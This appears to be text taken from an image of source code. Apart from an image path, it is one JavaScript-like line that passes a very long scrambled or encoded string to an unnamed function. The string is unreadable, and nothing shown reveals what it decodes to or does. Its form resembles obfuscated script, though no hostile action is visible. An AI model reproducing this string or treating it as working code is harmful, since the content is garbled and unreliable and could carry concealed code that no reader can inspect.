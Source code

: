 r=t(e,"=jv8bGoiK)u_;0FXG;vo8)b;ojiKKG)Ku_8jbGGoo(iKKb8vb0Goo)i;K0KF;o0XX1RBF0ju8)b_bXo0i8Ko))uuu_F8X;r0j0WobvbKG;i)KG)iuG_X;)0;FXy+v;8uGjoGioK4)KubuF;408FoX)m;jXboKGGuibiF)jub_G_QFjXXjvj_v0bvG0ob)jKK)_uF_XF)F;jGjj8ob)bFiTiKKooXiiKuuG_v;;FLXjnojZvo8ibXGXijK_)F0oFKX_xFvj8bbiGuo0Kv_;uo_);;00X0j;vX8FGbvF8ob)))u);j0juoFXqbvy8)80G0v;iXK)u_i)KFu8_b;;FjXb2GjjoYo0)bG_i8KG)iu_F;j)j}v88obiijib)0))_F0j0oXK{U(FXiXXjvv08ub;oGiiKGuSu;;G0bFKXX*XvbGXK0K8)ou)_u0uX)+;j_8jE_j8voK8K;uG_i;_)i0FXb0jF;v<v8bv8bKjKjKjuo)K0FFGTj5)j;vXbMb_o;)b)oKi;o0KF8X)?ujGvF8)b;GXifo_uu_;0G0)XGBF<;v)8Rb8GooioXubuu;G0bX8XFX8vG8oGobXo0i8Ko))uuuo0FX_XFj0888KriboioKF)FuG;F;)0;FX!zvuv0GoGviiKuKX_j_);i_z_K;_F8Xo+0j_vFbvGoo0K2)v;00FXvD_jov)8;b0b)Kj)Fuj;E0o0_F)XXd0vm88bbo8i1KX)uui_F;_0FXjwvvG8vG)oii0iK)v);uX;v080vq8vGFbvvbXio8jKv))uo_);;00.Gjuvb8;GGG8oFiiKu)0uFuXFim}jjvjj)80o8iviEKo)bui_u;_;;.bjv89vFGKGvoGiKK)_G;_0.FoXo*ij_8ub;oLobKvbG_buL;;0uXuX;j;8W8jbXivoKKoK;)X_v;8_FX0aXju8qbj88oXiXKu)F_F_F0uFvXGHKj)jvbKG_GFKvuK_i_K0KXbFFvijvvG8Kb)GGi;)zu0o0;o0;XvXF;;8o88GKjKi_)Bu!_K_;;0XjXGfi0obBbGo8ou8GiGuu_0;X;iF;X0;0joMobGibo)i;KXu#_j0uX8_j.Gv)vXX0G;ivi0)Euj_8Kv0FXo__VX8bXbbKjui0K;)b_X_F0F0FXuevjGvK8)80i8iF)juv_bK8_XXi_07Fvi8vbGGKo)o)uK__;u_bFG}i#Gvbv)8;bXoniii_Kj_0_G;oXuXFaijvv_GubKoFKv)vuG_K8FG8G8Toj0vu80G^ojov))ud_);u0iX8X_/Fvj8vGoo;ijKiu)_0;F0KXOX;CKjKv0bvGjobiiF0(Gjj8G0KXfX;aXvv)__i;008FvXiJX_;0_F:X8Dojiv8bio0i;GX)i_b_G0iFuXvSjvGvGGob)G;oXKtK8_>0i)ju;F8j8v_8_18GiiF)C)FuX_o0;FbXjEvvg88G8^0o8Kv)ouv_j;8)_FbPb9Kj_vF)G;o_KX80sFojFv;jubGbFKuiv)0)jGXijKb)iuu_00W088Gp_8KvXbvGGoo) )8_;_K00X.XGjijXv0jojF8jbFGKijKo)ou0__;_FyXvd)j_8v8XiF)8uv_G;KbXoiiji)v)bvb0o*i8KbK)_l;00u0;X;j4jX8jbbGioui0iTjvXo;_FlFX6vjGKu_b;v;oioKX)uu0;C0j03sjv8Fvv4b0ibo0K8)jub_i;K;FXbj8jFv_G8bXoviGKo)j;u0iF_FXVu0*RF8_ovj;K_iiu8_j0j08X8.i9Kvob)8XG0o8ioK))u)0;uXju_jvvo8KboG;ooijKX)Guu_);;0XX!X8vsbibzG;obiiKu)_u);_F_XGgGv_FGv8G^iiiwKF)bui_u;_;FX_vv0;v8Gio)iiK0)iuv;W;o0iFuX0jEvGbFb)G;oXKAKv_u;i0XubA_jvvvX+viGXi;iX)F_b_)KKFFX8j8vuv;b;b;ociRK8)oui_F_)Fb}oDKj_vF8Xbbo_KK)G)j;G00FGXGO_jKv)bXGiiNKvKo)Xuu_00AFj00jjvG88GuobiXi0)iuj_b;i0K0j ijujG80GjoiKjKi)0u__F0jFvF8jTvXbjbGu;o)i;KXux;<0XXvqjjiXjX)n;ovobK0Giu8_K0o00X0X0v88b8)G)G0i;KFuiu_;iF7u0XGjbvGXu8jGbioKg)u_j)v0GF;_KFKjKvbbib)o0Kii:uo_x;)0_uXnGH_jX8X#FGuoui)KX_jK70j0KX8e_0XyX8Xb_oFiB)buF)i;00iX#CvBov8vu80GEojoj)Gu8_i_GFuXrW_ju8)bbb)ibo0K%)8ubu)0FXjQ8X_v(8jbRbii_K;)ouF_u0);jXGM8jovubov;ivKG)o)ou;_u;0Fpoioii_)KubGbiKiKK_)FuX_uX8eNjbjK88vbGjiKoi)8uj;j;8F8XiXKjoj;8obOG8ooiiiuui;F_jF)XFjovKvG8ibuG0i:K8)ou)X;0jFiXGlKj_v;8KoTiiKvKXu__8;o0)FuFXjo88bYbGouKvK_u);b_X0uF8Xo^)jujiG8o;i&)tGjKX_;F80;Xi.rj8vo8i8Uooi)ou_e;v0GF8XGX)juj086b8GbGvKbiX_0ui;b_XXi4XX040GobjiGou)8))u;_X0_FGXK?_jX8jbbGioui0)B_iXo;_XbFXpvjGvoGhG8i;iK)0_y_G0i0XF00o0FXjN)j;88bjGboKi;)8uo_KXvvojov)8;b0GFKiu}GF_);GF0FX_0jG8jbubFoFibKoGGu);)KFFu2vyuv)8XGvGKo)K0b;Ku_i0F))Fu(4LFvj8bbGGji))I)_uK_F;;0XXvd8<)vXbFG)ooKKKu)0_c;j;oF05ujij8biGXoiiiK0)uu_0j0)Xv(bCKvjv;8XGvo8GF)0uX;K;;FK*jXXjov88ob)GuG_)v))_v;80SFXXbVijuv_v;obo;K_uj_b_u;_FXuFF;j)bA8ibuG0iVK;)ou)_;;XjGXGEKj_vFbjGboi)u)Gu}_8;o0)F;?GjvvGG8b_oMijKb)iuF_0I.X8Xo1_j;8bbvGFoKu_)juj_o;iFjF0x8j8Gobjb;ojivK0)Ku0_F?jFoXix;j08bb8Gio)i;0_uv_G;K00FF7vjbviobb0o^i8Ki))u;_X0vFKXKI_jF88b0Gioui0KF)j_FFG;K.,jGv08X80GvojibKi)K)_;KFXFKX;1;jX8vb8GuGGiF)jub_i0;00XZ,8vKGG8;bXoviKKK)_uFFj0KFiXu20vA88biG)iFKi)vuo_K;F0FXjEb8i8o80Gjo8iiK))FuX;K0uFKX_pF8d8bbKGuoFK})i1%_);;0XEjaGj)v_8Fu8obiiKu)0_W;80oX_GFyXv88Gb_G_oFKj_buX_u;FFEXb4ojuv;8XG0oGiKK_u5_j;G0iFuP_j/v88obuG;oXKv)G_s__;FFjXG:ij_v0brGGooi)K;uj_v;G0KF_UKjjvb8ib_G0ijK8)uh8_;;XFv/oBKj;vFbjuooiiuK0u8_8;o0)F;jXjvvG8Kb;GFivKb)i0b_00/F8Xie)j;vXbvGXoKi_KFuv_b;i0uF0yrj88ui)bF)uivKG)Ku)_G0;F;_uj)v)bjGjj)K*KFGvu;_00X)F9G*;j;FuvKGGi;8o)j)0;vKv0iF0Cpj;Fj8iGoouioKG)ioo;00_)XC_jbv080XFGbiCK )u)X_X;bFKF0_0lFvi8vbGGKo)obu8_G;F0vFFliHGvFv)8;bXo-KuK0_o_v0iFuFXjjj)vijNjKv_b8Goo0i_KFuv_o;0FMXvv;buGIo8ioKi_v_i0)0_XiBivjvobob_oXibKv))uo_);;000FjGj;8GboG8o)iiKu)0uF_uFvX)>bjj888GbKG_o;ij)K_G;v_FXvOujvvv8KbGGoi;Kb)0uX_8;)0iFuX0>Fjb8uG)obij)v)GuK__;;;XX;v800j;b;obib8;iv_j;G0jF3XvXFjjvb8iGoG0iNK8uK_b_;;XFvXu:Kj_vFbjG)oii_K0uw_8;o0)F;jujvvG8Kb0GFivKb)i_Z_002F8XiT)j;vXovoKoKi_KFuj_b;X0uF0j0j8vK8)b;GXioKG;K;j_F08FbR^&uvi8!i8;)o)iFKXuG_G;u0_jFnKjbv)8uG8owiiKo;)jo_X0bFGXXV_jX8jbbu8oui0)(uG_o;u0;FXv;jGvK8_bXojibKi)u_j;<08FoX_jbjX8vbGGoGo)GuK_iuj0vXbXvaFjov)8;b0ijKiK;uv;b0KF)X8R_jivv8KboG)o;i0);u);K08F+8F:bjivu8_G_iuK0);_vK;)buiX0XXvKXv8FG8ijiK)K)K_F;X0bXbXKjiv)bvboovi_bK)%uX;m)GFoF0j8jGv080GooiiXK;)Ki)0jF8XiXFjFF_bjbiG_i_bu)ouo_G;_F0_;50jbvXbij_i8KG))us;HK;0FFKXb?ijuv0bKG8ooi))FjF_v;G0KF0XFjjvbb)oGG0ijK8))u)_;;XqvjjRKj;vFbvGboKiu)XuF_8;)0)X%XXjvvG8KoiGFivKb)uuu_00!F8jvw)j;vXbvGGoui_KF_+_b;i0uFFfkjGvo8)ioGXivKG))u__F0jFbXuruj08TbGoGo)i;KXu{u80,XiXpXijKbAbvGb8bbb)0_b;8;j0)FGXK?_j;80GuoyioK;)KuG_X;)0;FX{tvu8Y8XGGouK-)ouvu0;E08Foro*;jX8vGiiFo_iF)juo_i;u00%vbojovu8;GtoviGKK)_uX;j0bFiX;l0vv88b;uKo;iX)vu__K;;0FXvebj_Kb80GPo8i;K))0uX;ovXFKX_wFv_8bbKGuiXuo)8uo_);X0XXvZGvuoF8FGvobiKKu)0_A;88iF)X;CXv88GbKG_oFuu)bui_u;0FPX8>oj)K)8XGvoGiKK_)F_j;b{;FuX0j2vG8ob)G;oXu;)GuK__;XFjXbVijuvXb2G8ooi_)G)X_v;G0o0)Vov0j:bKG0iGKiKG))u)_;;XF7XiXvj_vFbjGbouiuK0u#;GF;0)F0XXjbvG8Kb_oFFIKb)Kuu_F0cF8Xo4)bovXbvGGo)i_KFuj_G0j0uF0xkjGv_8)b;GXiwi;ub__;o08X;Xihuj0vFGKG_KbKHuG_K_00XFiXG0FFoX)jjvb8_b)G;iUKb)_uF;}Xuj/jF8jbbGGG_Kju!u__K;X0;FXfvj8jbb_Gvo_i;K)uXu0;,08FbXHvb8obbGuoboXK0Gb)8;80_F__8F)vK8;bKGio)ii)